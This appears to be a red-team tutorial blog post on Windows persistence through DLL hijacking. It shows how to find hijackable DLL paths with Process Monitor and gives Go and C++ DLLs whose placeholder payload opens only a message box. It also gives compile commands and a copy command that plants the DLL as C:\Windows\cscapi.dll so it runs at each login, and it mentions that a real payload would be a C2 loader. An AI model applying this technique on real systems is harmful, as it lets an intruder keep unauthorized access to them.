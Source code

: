 ```yaml
---
layout: post
title: Malware Development 10 - Persistence via DLL Hijacking (Golang)
tags: [Persistence]
categories: [Malware Development]
---
```


<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/banners/banner-10.png" alt="pic">

# Introduction

Hello hackers!

Today we'll be discussing one of the most used persistence techniques, the ***DLL Hijacking***, which will allow us to execute malicious code in a persistent way so in case we have access to a computer we don't lose access to it. In this post we also will use ***Process Monitor*** so if you don't have it yet you can download it [here](https://download.sysinternals.com/files/ProcessMonitor.zip)

# Explanation

This technique consists of placing a malicious DLL on a directory where an application tries to use a DLL and we have writing permissions, so if it calls the DLL, it will call our malicious code without knowing it. I also recommend you a video ***Ippsec*** uploaded about this which explains it really well (see [here](https://www.youtube.com/watch?v=3eROsG_WNpE))

Windows loads DLLs in this order:

- Directory where the app launched
- C:\Windows\System32
- C:\Windows\System
- C:\Windows
- Current working directory
- PATH variable directories (system)
- PATH variable directories (user)

<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/schemes/malware-10.png" alt="pic">

But first of all we have to find some potential paths where we can perform this technique so let's see how we can find them.

Open the ***Process Monitor*** (Procmon) and you'll see something like this:

<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/practice10/procmon-1.png" alt="pic">

But don't worry if you don't understand the interface, it's simple. You see the process name (i.e. svchost.exe), the process ID (i.e. 4062), the operation (i.e. RegOpenKey), path of the operation (i.e. HKLM), the result which is what we're looking for (i.e. SUCCESS, NAME NOT FOUND, etc) and some other details about the operation

Now click on ***Filter*** and set this configs

<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/practice10/procmon-config.png" alt="pic">

<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/practice10/procmon-config-2.png" alt="pic">

Only keep enabled the file system activities:

<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/practice10/procmon-config-3.png" alt="pic">

In our case we will do this with ***cscapi.dll*** as ***explorer.exe*** tries to call it from ***C:\\Windows\\cscapi.dll*** and our malicious code will be executed every time a user logs in, so if we drop our DLL into the mentioned path it should work and be executed. Let's code a DLL for testing purposes, it will be slightly different from the one of the previous post.

```go
package main

/*

Example Golang DLL

*/

import (
  "C"
  "unsafe"
  "syscall"
)

func init(){
  syscall.NewLazyDLL("user32.dll").NewProc("MessageBoxW").Call(
    uintptr(0),
    uintptr(unsafe.Pointer(syscall.StringToUTF16Ptr("Hello! :)"))),
    uintptr(unsafe.Pointer(syscall.StringToUTF16Ptr("Example Box"))),
    uintptr(0),
  )
}

//export main
func main(){
  // do nothing
}
```

We add the `init()` function to act as the C++ entrypoint `DllMain`

If you prefer to code it in C++ you can also do it:

```cpp
#include <windows.h>
#pragma comment (lib, "user32.lib")

/*

Example C++ DLL

*/

BOOL APIENTRY DllMain(HMODULE hModule, DWORD nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Hello! :)",
      "Example box",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }

  return TRUE;
}
```

Compile the code as a DLL

> Golang
```sh
GOARCH=amd64 GOOS=windows CGO_ENABLED=1 CC=x86_64-w64-mingw32-gcc go build -buildmode=c-shared -ldflags="-w -s -H=windowsgui" -o dll_to_inject.dll dll_to_inject.go
```

> C++
```
x86_64-w64-mingw32-g++ -shared -o extra.dll extra.cpp -fpermissive
```

# Demo

In our case we've chosen the ***cscapi.dll*** so it'll be called every time a user logs in. Move the generated DLL to ***C:\\Windows***

```
copy main.dll C:\Windows\cscapi.dll
```

Now logout and login:

<img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/practice10/demo-malware-10.png" alt="pic">

And... it works! As soon as I login, a message box spawns. However this is only for testing purposes, in a real scenario it will probably be a DLL which acts as a loader to execute a staged payload which would allow the red teamer to interact with the system from a C2 server like ***Cobalt Strike***

# References

```
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking
https://www.upguard.com/blog/dll-hijacking
https://www.ired.team/offensive-security/privilege-escalation/t1038-dll-hijacking
https://pentestlab.blog/2017/03/27/dll-hijacking/
https://github.com/tothi/dll-hijack-by-proxying
https://www.youtube.com/watch?v=3eROsG_WNpE
```

# Conclusion

I hope you've learned how to maintain access on a Windows system via DLL Hijacking and how to use ***Process Monitor*** to analyze some system stuff.

Source code [here](https://github.com/D3Ext/malware-practices)

[Go back to top](#)

